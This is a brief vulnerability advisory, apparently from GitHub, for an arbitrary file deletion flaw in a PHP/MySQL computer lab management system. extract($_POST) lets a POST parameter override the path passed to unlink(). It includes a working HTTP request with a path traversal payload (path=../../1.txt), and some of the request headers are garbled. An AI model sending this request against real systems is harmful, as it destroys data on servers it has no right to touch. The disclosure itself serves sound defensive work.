



# Computer Laboratory Management System using PHP and MySQL - Arbitrary file deletion

In classes/Master.php, the `delete_img` method contains `extract($_POST)`.



By variable override, the `$path` variable can trigger `unlink($path)`, allowing for the deletion of any file.

```http
POST /php-lms/classes/Master.php?f=delete img HTTP/1.1
Host:192.168.3.182
Cache-Control:max-age=0
Upgrade-Insecure-Requests:1User-Agent: Mozilla/5.0 (Windows N 10.0; Win64; x64)AppleWebKit/537.36 (KHTML, like Gecko)Chrome/122.0.6261.112 Safari/537.36
Accept :text /html, application/xhtml+xml, application xml;g=0.9, image/avif, image/webp, image/apng, */*; g=0. 8, application/signed-exchange;v=b3;q=0.7
Accept-Encoding:gzip,deflate,br
Accept-Language:zh-CN,zh;q=0.9
Cookie:PHPSESSID=me1t3n4nemvaf39r7udbqla18v: XDEBUG SESSION=12980
Connection:close
Content-Type:application/x-www-form-urlencodedContent-Length:16

path=../../1.txt
```



The file 1.txt has been deleted.


